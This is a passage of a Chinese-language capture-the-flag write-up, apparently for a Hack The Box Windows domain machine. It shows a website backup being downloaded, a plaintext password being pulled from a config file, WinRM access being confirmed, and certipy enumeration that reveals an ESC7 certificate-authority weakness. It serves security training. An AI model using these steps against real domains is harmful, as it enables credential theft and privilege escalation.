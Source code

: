 ```bash
website-backup-27-07-23-old.zip       1      1
```

我们从网站上下载该备份文件

```bash
kali@kali[~]$ wget http://10.10.11.236/website-backup-27-07-23-old.zip
```

解压之后，从 `.old-conf.xml` 文件中，找到了`raven`账户的账号密码

```
username: raven
password: R4v3nBe5tD3veloP3r!123
```

使用该账户进一步枚举，发现该账户有WINRM服务的权限

```bash
kali@kali[~]$ netexec winrm 10.10.11.202 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'    
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

枚举 `ldap` 发现也有 `ldap` 服务的访问权限
## 04. ESC7提权

由于 `Operator` 和 `raven` 有 ldap 服务的访问权限，使用这两个账户进行 ADCS 域证书漏洞枚举。发现可以使用 `raven` 账户进行 `ESC7` 攻击 

```bash
kali@kali[~]$ certipy-ad find -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

<省略...>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
